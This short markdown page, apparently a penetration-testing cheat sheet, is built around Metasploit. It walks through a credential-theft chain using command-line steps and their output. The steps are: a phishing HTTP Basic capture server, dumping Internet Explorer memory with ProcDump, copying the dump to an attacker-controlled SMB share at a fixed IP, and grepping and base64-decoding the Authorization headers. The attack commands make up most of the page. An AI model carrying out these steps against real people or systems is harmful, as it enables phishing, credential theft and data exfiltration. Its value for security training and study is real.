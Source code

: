 # Metasploit

## 01 - Use Case

### 1.1 - Phishing

```
msf6 > use auxiliary/server/capture/http_basic

msf6 auxiliary(server/capture/http_basic) > set srvhost 10.8.145.108
srvhost => 10.8.145.108
msf6 auxiliary(server/capture/http_basic) > set uripath /login
uripath => /login
msf6 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 3.
[*] Using URL: http://10.8.145.108/login
[*] Server started.
```

- Wait for the target to interact to the phishing link to pass the credentials.

![[01 - Realm.png]]

### 1.2 - Dump Credentials

#### 1.2.1 - Task Manager

Create dump file

![[02 - Create Dump File.png]]

![[03 - Memory Dump File Saved.png]]

#### 1.2.2 - Sysinternal ProcDump

```
C:\Users\user> tasklist /svc

C:\Users\user> procdump.exe /accepteula -ma iexplore.exe C:\Users\user\AppData\Local\Temp\iexplore.dmp
```

### 1.3 - Exfiltrate Credentials

```
$ sudo smbserver.py share $(pwd)

C:\Users\user>copy C:\Users\user\AppData\Local\Temp\iexplore.dmp \\10.8.145.108\share\
The specified network name is no longer available.
        1 file(s) copied.

$ ls -lh
total 100M
-rw-r--r-- 1 user user 100M May 29 16:41 iexplore.dmp
```

### 1.4 - Extract Credentials

```
$ strings iexplore.DMP | grep "Authorization: Basic"

$ base64 -d <<< <base64_string>
```

---
## References

- [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)